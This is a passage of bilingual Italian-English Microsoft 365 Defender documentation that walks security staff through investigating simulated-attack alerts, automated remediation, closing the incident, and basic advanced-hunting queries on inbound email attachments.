<span data-ttu-id="5b4d9-218">L'enumerazione tramite il protocollo SMB (Server Message Block) consente agli utenti malintenzionati di ottenere informazioni di accesso utente recenti che consentono loro di spostarsi lateralmente attraverso la rete per accedere a uno specifico account sensibile.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-218">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="5b4d9-219">In questo rilevamento, viene attivato un avviso quando l'enumerazione della sessione SMB viene eseguita su un controller di dominio.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-219">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>



### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a><span data-ttu-id="5b4d9-221">Esaminare la sequenza temporale del dispositivo [Microsoft Defender per Endpoint]</span><span class="sxs-lookup"><span data-stu-id="5b4d9-221">Review the device timeline [Microsoft Defender for Endpoint]</span></span>

<span data-ttu-id="5b4d9-222">Dopo aver esaminato i vari avvisi in questo evento imprevisto, tornare alla pagina dell'evento imprevisto analizzata in precedenza.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-222">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="5b4d9-223">Seleziona la **scheda Dispositivi** nella pagina dell'evento imprevisto per esaminare i dispositivi coinvolti in questo evento, come segnalato da Microsoft Defender per Endpoint e Microsoft Defender per l'identità.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-223">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="5b4d9-224">Seleziona il nome del dispositivo in cui è stato condotto l'attacco per aprire la pagina dell'entità per quel dispositivo specifico.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-224">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="5b4d9-225">In tale pagina è possibile visualizzare gli avvisi attivati e gli eventi correlati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-225">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="5b4d9-226">Seleziona la **scheda Sequenza** temporale per aprire la sequenza temporale del dispositivo e visualizzare tutti gli eventi e i comportamenti osservati nel dispositivo in ordine cronologico, in sequenza con gli avvisi generati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-226">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="5b4d9-228">L'espansione di alcuni dei comportamenti più interessanti fornisce dettagli utili, ad esempio alberi di processo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-228">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="5b4d9-229">Ad esempio, scorrere verso il basso fino a trovare l'evento di avviso **Sospetto inserimento del processo osservato**.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-229">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="5b4d9-230">Seleziona il **powershell.exe iniettato** per notepad.exe di processo sotto di esso, per visualizzare  l'albero di processo completo per questo comportamento nel grafico Entità evento nel riquadro laterale.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-230">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="5b4d9-231">Se necessario, utilizzare la barra di ricerca per il filtro.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-231">Use the search bar for filtering if necessary.</span></span>



### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="5b4d9-233">Esaminare le informazioni utente [Microsoft Cloud App Security]</span><span class="sxs-lookup"><span data-stu-id="5b4d9-233">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="5b4d9-234">Nella pagina dell'evento imprevisto selezionare la **scheda Utenti** per visualizzare l'elenco degli utenti coinvolti nell'attacco.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-234">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="5b4d9-235">La tabella contiene informazioni aggiuntive su ogni utente, incluso il punteggio Priorità indagine **di ogni** utente.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-235">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="5b4d9-236">Selezionare il nome utente per aprire la pagina del profilo dell'utente in cui è possibile eseguire ulteriori indagini.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-236">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="5b4d9-237">[Altre informazioni sull'analisi degli utenti rischiosi.](/cloud-app-security/tutorial-ueba#identify)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-237">[Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).</span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="5b4d9-239">Indagine e correzione automatizzate</span><span class="sxs-lookup"><span data-stu-id="5b4d9-239">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="5b4d9-240">Prima di illustrare questa simulazione, guardare il video seguente per acquisire familiarità con ciò che è l'auto-correzione automatica, dove trovarla nel portale e come può essere utile nelle operazioni di sicurezza:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-240">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="5b4d9-241">Tornare all'evento imprevisto nel portale del Centro sicurezza Microsoft 365.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-241">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="5b4d9-242">La **scheda Indagini** nella pagina **Evento** imprevisto mostra le indagini automatizzate attivate da Microsoft Defender for Identity e Microsoft Defender for Endpoint.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-242">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="5b4d9-243">Lo screenshot seguente mostra solo l'indagine automatizzata attivata da Defender per Endpoint.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-243">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="5b4d9-244">Per impostazione predefinita, Defender per Endpoint consente di correggere automaticamente gli elementi trovati nella coda, che richiedono la correzione.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-244">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="5b4d9-246">Seleziona l'avviso che ha attivato un'indagine per aprire la **pagina Dettagli indagine.**</span><span class="sxs-lookup"><span data-stu-id="5b4d9-246">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="5b4d9-247">Verranno visualizzati i dettagli seguenti:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-247">You'll see the following details:</span></span>

- <span data-ttu-id="5b4d9-248">Avvisi che hanno attivato l'indagine automatizzata.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-248">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="5b4d9-249">Utenti e dispositivi influenzati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-249">Impacted users and devices.</span></span> <span data-ttu-id="5b4d9-250">Se vengono trovati indicatori su altri dispositivi, verranno elencati anche questi dispositivi aggiuntivi.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-250">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="5b4d9-251">Elenco di prove.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-251">List of evidence.</span></span> <span data-ttu-id="5b4d9-252">Entità trovate e analizzate, ad esempio file, processi, servizi, driver e indirizzi di rete.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-252">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="5b4d9-253">Queste entità vengono analizzate per le possibili relazioni con l'avviso e classificate come benigne o dannose.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-253">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="5b4d9-254">Minacce trovate.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-254">Threats found.</span></span> <span data-ttu-id="5b4d9-255">Minacce note rilevate durante l'indagine.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-255">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="5b4d9-256">A seconda dei tempi, l'indagine automatizzata potrebbe essere ancora in esecuzione.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-256">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="5b4d9-257">Attendere alcuni minuti per il completamento del processo prima di raccogliere e analizzare le prove ed esaminare i risultati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-257">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="5b4d9-258">Aggiorna la **pagina Dettagli indagine** per ottenere i risultati più recenti.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-258">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="5b4d9-260">Durante l'indagine automatizzata, Microsoft Defender for Endpoint ha identificato il processo di notepad.exe, che è stato iniettato come uno degli artefatti che richiedono la correzione.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-260">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="5b4d9-261">Defender for Endpoint interrompe automaticamente l'inserimento di processi sospetti nell'ambito della correzione automatica.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-261">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="5b4d9-262">È possibile visualizzare <i>notepad.exe</i> dall'elenco dei processi in esecuzione nel dispositivo di test.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-262">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="5b4d9-263">Risolvere l'evento imprevisto</span><span class="sxs-lookup"><span data-stu-id="5b4d9-263">Resolve the incident</span></span>

<span data-ttu-id="5b4d9-264">Al termine dell'indagine e confermata la correzione, chiudere l'evento imprevisto.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-264">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="5b4d9-265">Selezionare **Gestisci evento imprevisto.**</span><span class="sxs-lookup"><span data-stu-id="5b4d9-265">Select **Manage incident**.</span></span> <span data-ttu-id="5b4d9-266">Impostare lo stato su **Risolvi evento imprevisto** e selezionare la classificazione pertinente.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-266">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="5b4d9-267">Quando l'evento imprevisto viene risolto, chiude tutti gli avvisi associati nel Centro sicurezza Microsoft 365 e nei portali correlati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-267">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>



<span data-ttu-id="5b4d9-269">In questo modo viene incapsulata la simulazione di attacco per la gestione degli incidenti e gli scenari di analisi e correzione automatizzati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-269">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="5b4d9-270">La simulazione successiva ti permetterà di eseguire la ricerca proattiva delle minacce per i file potenzialmente dannosi.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-270">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span>

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="5b4d9-271">Scenario di ricerca avanzata</span><span class="sxs-lookup"><span data-stu-id="5b4d9-271">Advanced hunting scenario</span></span>

> [!NOTE]
> <span data-ttu-id="5b4d9-272">Prima di illustrare la simulazione, guardare il video seguente per comprendere i concetti avanzati di ricerca, vedere dove è possibile trovarlo nel portale e sapere come può essere utile nelle operazioni di sicurezza:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-272">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="5b4d9-273">Requisiti dell'ambiente di ricerca</span><span class="sxs-lookup"><span data-stu-id="5b4d9-273">Hunting environment requirements</span></span>

<span data-ttu-id="5b4d9-274">Per questo scenario è necessaria una singola cassetta postale interna e un dispositivo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-274">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="5b4d9-275">Sarà inoltre necessario un account di posta elettronica esterno per inviare il messaggio di prova.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-275">You'll also need an external email account to send the test message.</span></span>

1. <span data-ttu-id="5b4d9-276">Verificare che il tenant abbia [abilitato Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span><span class="sxs-lookup"><span data-stu-id="5b4d9-276">Verify that your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>
2. <span data-ttu-id="5b4d9-277">Identificare una cassetta postale di destinazione da utilizzare per la ricezione della posta elettronica.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-277">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="5b4d9-278">a.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-278">a.</span></span> <span data-ttu-id="5b4d9-279">Questa cassetta postale deve essere monitorata da Microsoft Defender per Office 365 b.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-279">This mailbox must be monitored by Microsoft Defender for Office 365 b.</span></span> <span data-ttu-id="5b4d9-280">Il dispositivo dal requisito 3 deve accedere a questa cassetta postale</span><span class="sxs-lookup"><span data-stu-id="5b4d9-280">The device from requirement 3 needs to access this mailbox</span></span>
3. <span data-ttu-id="5b4d9-281">Configurare un dispositivo di test: a.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-281">Configure a test device: a.</span></span> <span data-ttu-id="5b4d9-282">Assicurati di usare Windows 10 versione 1903 o versione successiva.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-282">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="5b4d9-283">b.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-283">b.</span></span> <span data-ttu-id="5b4d9-284">Aggiungere il dispositivo di test al dominio di test.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-284">Join the test device to the test domain.</span></span>
    <span data-ttu-id="5b4d9-285">c.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-285">c.</span></span> <span data-ttu-id="5b4d9-286">[Attivare Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="5b4d9-286">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="5b4d9-287">In caso di problemi con l'abilitazione Windows Defender Antivirus, vedere [questo argomento per la risoluzione dei problemi.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="5b4d9-287">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="5b4d9-288">d.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-288">d.</span></span> <span data-ttu-id="5b4d9-289">[Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="5b4d9-289">[Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="5b4d9-290">Eseguire la simulazione</span><span class="sxs-lookup"><span data-stu-id="5b4d9-290">Run the simulation</span></span>

1. <span data-ttu-id="5b4d9-291">Da un account di posta elettronica esterno, inviare un messaggio di posta elettronica alla cassetta postale identificata nel passaggio 2 della sezione requisiti dell'ambiente di testing.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-291">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="5b4d9-292">Includere un allegato che sarà consentito tramite i criteri di filtro della posta elettronica esistenti.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-292">Include an attachment that will be allowed through any existing email filter policies.</span></span> <span data-ttu-id="5b4d9-293">Questo file non deve essere dannoso o eseguibile.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-293">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="5b4d9-294">I tipi di file suggeriti <i>sono pdf,</i> <i>exe</i> (se consentito) o documenti di Office, ad esempio un file di Word.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-294">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2. <span data-ttu-id="5b4d9-295">Aprire il messaggio di posta elettronica inviato dal dispositivo configurato come definito nel passaggio 3 della sezione requisiti dell'ambiente di testing.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-295">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="5b4d9-296">Aprire l'allegato o salvare il file nel dispositivo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-296">Either open the attachment or save the file to the device.</span></span>

#### <a name="go-hunting"></a><span data-ttu-id="5b4d9-297">Andare a caccia</span><span class="sxs-lookup"><span data-stu-id="5b4d9-297">Go hunting</span></span>

1. <span data-ttu-id="5b4d9-298">Aprire il security.microsoft.com portale.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-298">Open the security.microsoft.com portal.</span></span>

2. <span data-ttu-id="5b4d9-299">Passare a **Ricerca > ricerca avanzata**.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-299">Navigate to **Hunting > Advanced hunting**.</span></span>

   

3. <span data-ttu-id="5b4d9-301">Creare una query che inizia raccogliendo eventi di posta elettronica.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-301">Build a query that starts by gathering email events.</span></span>

   1. <span data-ttu-id="5b4d9-302">Nel riquadro della query selezionare Nuovo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-302">From the query pane, select New.</span></span>

   1. <span data-ttu-id="5b4d9-303">Fare doppio clic sulla tabella EmailEvents dello schema.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-303">Double-click on the EmailEvents table from the schema.</span></span>

      ```console
      EmailEvents
      ```

   1. <span data-ttu-id="5b4d9-304">Modificare l'intervallo di tempo per le ultime 24 ore.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-304">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="5b4d9-305">Presupponendo che il messaggio di posta elettronica inviato durante l'esecuzione della simulazione precedente sia stato nelle ultime 24 ore, altrimenti modificare l'intervallo di tempo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-305">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>

      

   1. <span data-ttu-id="5b4d9-308">Eseguire la query.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-308">Run the query.</span></span> <span data-ttu-id="5b4d9-309">È possibile ottenere molti risultati a seconda dell'ambiente per il progetto pilota.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-309">You may have many results depending on the environment for the pilot.</span></span>

      > [!NOTE]
      > <span data-ttu-id="5b4d9-310">Vedere il passaggio successivo per le opzioni di filtro per limitare la restituzione dei dati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-310">See the next step for filtering options to limit data return.</span></span>

      

        > [!NOTE]
        > <span data-ttu-id="5b4d9-312">La ricerca avanzata visualizza i risultati delle query come dati tabulari.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="5b4d9-313">È inoltre possibile scegliere di visualizzare i dati in altri tipi di formato, ad esempio grafici.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-313">You can also opt to view the data in other format types such as charts.</span></span>

   1. <span data-ttu-id="5b4d9-314">Esaminare i risultati e verificare se è possibile identificare il messaggio di posta elettronica aperto.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-314">Look at the results and see if you can identify the email you opened.</span></span> <span data-ttu-id="5b4d9-315">La visualizzazione del messaggio nella ricerca avanzata potrebbe richiedere fino a 2 ore.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-315">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="5b4d9-316">Se l'ambiente di posta elettronica è di grandi dimensioni e sono presenti molti risultati, è possibile utilizzare l'opzione **Mostra** filtri per trovare il messaggio.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-316">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span>

      <span data-ttu-id="5b4d9-317">Nell'esempio, il messaggio di posta elettronica è stato inviato da un account Yahoo.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-317">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="5b4d9-318">Fare clic **+** **sull'icona accanto yahoo.com** nella sezione SenderFromDomain e quindi fare clic su **Applica** per aggiungere il dominio selezionato alla query.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-318">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span> <span data-ttu-id="5b4d9-319">Utilizzare il dominio o l'account di posta elettronica utilizzato per inviare il messaggio di prova nel passaggio 1 di Eseguire la simulazione per filtrare i risultati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-319">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span> <span data-ttu-id="5b4d9-320">Eseguire di nuovo la query per ottenere un set di risultati più piccolo per verificare che il messaggio sia visualizzato dalla simulazione.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-320">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. <span data-ttu-id="5b4d9-323">Fare clic nelle righe risultanti della query in modo da poter esaminare il record.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-323">Click the resulting rows from the query so you can inspect the record.</span></span>

      

4. <span data-ttu-id="5b4d9-325">Dopo aver verificato che sia possibile visualizzare il messaggio di posta elettronica, aggiungere un filtro per gli allegati.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-325">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="5b4d9-326">Concentrarsi su tutti i messaggi di posta elettronica con allegati nell'ambiente.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-326">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="5b4d9-327">Per questo scenario, concentrarsi sui messaggi di posta elettronica in ingresso, non su quelli inviati dall'ambiente.</span><span class="sxs-lookup"><span data-stu-id="5b4d9-327">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="5b4d9-328">Rimuovere i filtri aggiunti per individuare il messaggio e aggiungere "| dove **AttachmentCount > 0** e **EmailDirection**  ==  **"Inbound""**</span><span class="sxs-lookup"><span data-stu-id="5b4d9-328">Remove any filters you have added to locate your message and add "| where **AttachmentCount > 0** and **EmailDirection** == **"Inbound""**</span></span>

   <span data-ttu-id="5b4d9-329">La query seguente mostrerà il risultato con un elenco più breve rispetto alla query iniziale per tutti gli eventi di posta elettronica:</span><span class="sxs-lookup"><span data-stu-id="5b4d9-329">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

